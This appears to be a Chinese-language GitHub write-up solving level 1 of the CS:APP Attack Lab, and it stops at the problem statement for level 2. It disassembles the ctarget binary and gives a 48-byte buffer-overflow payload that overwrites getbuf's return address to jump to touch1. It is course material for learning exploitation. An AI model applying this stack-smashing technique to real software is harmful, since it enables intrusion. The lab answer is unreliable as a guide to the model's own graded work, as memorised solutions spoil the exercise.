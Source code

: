 #	解决思路
&emsp;&emsp;首先，需要注意的是，程序里的数据、地址按照小端法的方式保存，也就是说对于地址0x4017ef，在栈帧中的保存方式是（地址由小到大）：ef 17 40 00 00 00 00 00。嗯，是64位地址，别搞错了。  

&emsp;&emsp;我们想要用输入数据覆盖掉getbuf的返回地址，并且让getbuf跳转到touch1函数去，那么我们必须需要知道
1.	getbuf的输入缓存大小。
2.	getbuf的栈帧大小，以此确定存放getbuf返回函数地址的栈帧区域。 
3.	touch1函数的入口地址。  

那么，首先反汇编得到ctarget的汇编代码：

	objdump -d ctarget > ctargetCode.txt
	
分析汇编代码，我们可以得知touch1的入口地址是0x4017c0
```
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
```

接着分析getbuf代码，发现getbuf一共申请了0x28（十进制40）个字节来保存输入数据。
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq  
一种可行的方法：
```

再分析调用getbuf的test函数，发现test的返回地址保存在属于getbuf栈帧的上面8个字节处：
```
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
```

很显然，假设当前栈顶rsp在getbuf处，那么rsp~rsp+0x27是保存输入数据，rsp+0x28~0x+2f保存getbuf的返回地址。剩下的很简单，我们输入48个字节，并且最后8个字节是touch1的入口地址即可，这里为了简单起见，我的前40个字节都是00：
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```

将上述字节码保存文件ctarget-l1.txt处，输入命令即可pass第一个任务:
```
./hex2raw < ctarget-l1.txt | ./ctarget -q
```

#	Ctarget-level-2
##	问题描述
和level1类似，覆盖函数返回地址，使得getbuf函数完成后跳转到touch2函数。不同的是，这一次需要带上参数。
